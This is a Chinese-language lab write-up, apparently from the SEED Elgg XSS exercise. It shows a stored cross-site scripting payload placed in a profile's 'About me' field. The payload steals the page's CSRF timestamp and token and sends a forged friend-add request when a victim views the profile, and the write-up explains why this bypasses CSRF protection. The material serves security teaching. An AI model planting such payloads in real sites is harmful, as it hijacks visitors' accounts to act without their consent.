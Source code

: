 登入 Samy 的账号，编辑 About me，注意切换为纯文本模式，以避免代码被转义：

```html
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token; //FILL IN
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```

![](assets/2023-09-05-15-10-20.png)

当 Alice 再次访问 Samy 的主页时，就会将 Samy 添加为好友，刷新页面就可以看到按钮从 `Add friend` 变成了 `Remove friend`：

![](assets/2023-09-05-15-09-33.png)

问题 1：`var ts=...` 和 `var token=...` 两行代码的作用是什么？

ts 是时间戳，token 是一个用于鉴别的令牌，都是网站防止 CSRF 攻击的措施。在正常的请求中，这两个参数是由网站生成的，而攻击者是难以生成出正确的令牌的。但是在 XSS 攻击中，攻击者可以通过 JS 代码获取到这两个参数，从而构造出一个伪造的请求。如果不携带这两个参数，在上一个实验中已经测试过，服务器是不会接受请求的。
